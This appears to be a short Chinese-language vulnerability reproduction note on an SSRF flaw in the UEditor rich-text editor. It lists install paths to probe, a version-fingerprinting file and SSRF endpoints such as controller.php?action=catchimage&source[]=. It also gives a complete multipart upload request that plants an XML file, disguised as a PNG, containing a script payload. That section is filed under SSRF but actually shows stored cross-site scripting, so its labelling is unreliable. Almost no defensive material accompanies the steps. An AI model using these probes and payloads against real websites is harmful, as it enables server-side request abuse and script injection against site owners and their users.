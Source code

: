# ueditor存在SSRF漏洞

### 一、漏洞描述
ueditor存在SSRF漏洞

### 二、影响版本
![1720728132194-b3f361fa-461b-41ae-97cf-c3e8d0598b22.png](./img/f5KIX_0DKetAE9TO/1720728132194-b3f361fa-461b-41ae-97cf-c3e8d0598b22-874641.png)

### 三、漏洞复现
Ueditor路径：

```plain
/ueditor/
/ueditor-1.4.3.3/net/
/ueditor1_4_3_3-utf8-net/utf8-net/
/utf8-net/
```

查看版本：

```plain
/ueditor/ueditor.all.js
```

SSRF路径

```plain
/jsp/controller.jsp?action=catchimage&source[]=
/jsp/getRemoteImage.jsp?upfile=
/php/controller.php?action=catchimage&source[]=
```

PHP版本：

```plain
/ueditor/php/controller.php?action=catchimage&source[]=x.x.x
```

![1724055281930-a207d66d-0a8b-4a8e-86df-2bc1314aaac4.png](./img/f5KIX_0DKetAE9TO/1724055281930-a207d66d-0a8b-4a8e-86df-2bc1314aaac4-071913.png)

JSP版本：

```plain
POST /ueditor/jsp/controller.jsp?action=uploadfile&encode=utf-8 HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarynJAiy5Qly8XpmZmQ
Content-Length: 323


------WebKitFormBoundarynJAiy5Qly8XpmZmQ
Content-Disposition: form-data; name="upfile"; filename="1.xml"
Content-Type: image/png

<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1)</something:script>
</body>
</html>
------WebKitFormBoundarynJAiy5Qly8XpmZmQ--
```



> 更新: 2024-09-05 23:24:41  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/nvizlic3zcdfd5rg>